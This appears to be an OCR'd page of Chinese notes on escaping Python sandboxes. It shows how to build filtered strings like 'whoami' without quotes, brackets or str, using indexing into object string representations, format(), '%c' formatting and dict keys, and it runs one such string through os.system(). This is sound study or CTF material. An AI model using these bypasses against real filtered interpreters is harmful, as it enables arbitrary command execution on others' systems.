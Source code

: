 **扣字符：挨个把字符拼接出来，利用 `str` 和 `[]`**

```
>>> __import__('os').system(str(().__class__.__new__)[21]+str(().__class__.__new__)[13]+str(().__class__.__new__)[14]+str(().__class__.__new__)[40]+str(().__class__.__new__)[10]+str(().__class__.__new__)[3])
desktop-13qds1a\lenovo
0
>>> str(().__class__.__new__)[21]+str(().__class__.__new__)[13]+str(().__class__.__new__)[14]+str(().__class__.__new__)[40]+str(().__class__.__new__)[10]+str(().__class__.__new__)[3]
'whoami'
```

`[]` 如果被过滤了也可以bypass，`str`被过滤了就用class给他构造出来，`''.__class__()`、`type('')()`、`format()` 即可，同理，`int`、`list` 有的也都是适用，可以通过`.__class__()`、`type('')()`构造出来，也可以先查看基类，再从基类子类找到`str`或者`int`类。

```
>>> ''.__class__.__base__.__subclasses__()[4]
<class 'int'>
```

```
>>> format(1,'d')
'1'
>>> format(11,'x')
'b'
>>> format(10,'x')
'a'
>>> chr(100).__class__(chr(100).__class__.__new__)
'<built-in method __new__ of type object at 0x00007FF803385140>'
>>> chr(100).__class__(chr(100).__class__.__new__).__getitem__(14)
'o'
```

也可以使用列表的 `join()` 方法来连接列表中的元素成为一个字符串

**格式化字符串：那过滤了引号，格式化字符串还能用吗？**

`(chr(37)+str({}.__class__)[1])%100 == 'd'`

`('%c') % 100` 是一个字符串格式化操作，它将整数 `100` 格式化为一个字符，并返回相应的字符。，`'%c'` 是一种格式指令，用于格式化一个整数为对应的字符。整数 `100` 对应的字符是 ASCII 表中的字符 'd'。

```
>>> chr(37)
'%'
>>> chr(37)+str({}.__class__)[1]
'%c'
>>> (chr(37)+str({}.__class__)[1])%100
'd'
```

**dict拿键**

`'whoami' == list(dict(whoami=1))[0] == str(dict(whoami=1))[2:8]`

```
>>> dict(whoami=1).keys()
dict_keys(['whoami'])
>>> ''.__class__(dict(whoami=1).keys())
"dict_keys(['whoami'])"
>>> repr(dict(whoami=1).keys())
"dict_keys(['whoami'])"
>>> list(dict(whoami=1).keys()).pop()
'whoami'
```
